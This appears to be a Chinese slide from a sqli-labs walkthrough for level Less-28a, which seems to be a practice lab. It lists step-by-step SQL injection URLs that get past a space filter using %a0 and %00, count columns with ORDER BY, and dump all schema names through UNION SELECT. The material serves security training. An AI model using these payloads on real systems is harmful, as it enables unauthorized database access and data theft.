

# Less-28a_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://47.100.118.240:8888/Less-28a/?id=1 此时显示正常
2. http://47.100.118.240:8888/Less-28a/?id=1’ 有报错，可能存在注入
3. http://47.100.118.240:8888/Less-28a/?id=1‘)  %a0 order  %a0  by %a0  3 ;%00  利用order by语句得到一共有3列。
4. http://47.100.118.240:8888/Less-28a/?id=1111‘) %a0 union   %a0  select  %a0  1,2,3 ;%00  此时得到数据可以显示的位置。
5. http://47.100.118.240:8888/Less-28a/?id=1111‘) %a0 union   %a0  select  %a0  1,2,group_concat(schema_name) %a0  from  %a0   information_schema.schemata ;%00  得到所有的库
6. 其余的操作和less-27基本无异。